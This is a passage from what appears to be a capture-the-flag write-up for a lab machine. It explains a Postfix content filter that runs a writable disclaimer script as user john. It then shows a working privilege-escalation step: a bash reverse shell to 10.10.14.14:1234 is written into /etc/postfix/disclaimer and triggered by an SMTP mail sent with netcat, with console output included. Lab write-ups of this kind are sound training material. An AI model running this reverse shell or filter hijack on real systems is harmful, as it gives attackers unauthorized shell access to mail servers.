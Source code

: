 The `smtp` service defines how Postfix receives emails that are sent to the SMTP port over the network. Defined here is the `smtpd` daemon, which is responsible for listening for SMTP connections. The option `-o content_filter=dfilt:` instructs smtpd to filter the content of emails and uses the `dfilt` service as the filter. The `dfilt` service defines a pipe service for processing email content. It runs a script (`/etc/postfix/disclaimer`) which may be adding a disclaimer to the content of the emails. The service operates locally and executes with the permissions of the user `john`.

Then, we know that the local has a 25-port smtp service with Postfix. And when sending mails to john, the `/etc/postfix/disclaimer` script which is writable would be executed.

**Exploit**:

1. write reverse shell into disclaimer script
2. send mail to john through 25 port smtp service

```console
kyle@writer:/dev/shm$ cat mail.sh
#!/usr/bin/bash

(
echo "EHLO localhost"
sleep 1
echo "MAIL FROM:kyle@writer.htb"
sleep 1
echo "RCPT TO:john@writer.htb"
sleep 1
echo "DATA"
sleep 1
echo "Subject: Test Email"
echo ""
echo "This is the body of the email"
echo "."
sleep 1
echo "QUIT"
) | nc 127.0.0.1 25
kyle@writer:/dev/shm$ echo "bash -c 'bash -i >&/dev/tcp/10.10.14.14/1234 0>&1'" > /etc/postfix/disclaimer && ./mail.sh
220 writer.htb ESMTP Postfix (Ubuntu)
250-writer.htb
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250-SMTPUTF8
250 CHUNKING
250 2.1.0 Ok
250 2.1.5 Ok
354 End data with <CR><LF>.<CR><LF>
250 2.0.0 Ok: queued as 6B4187E7
221 2.0.0 Bye
```

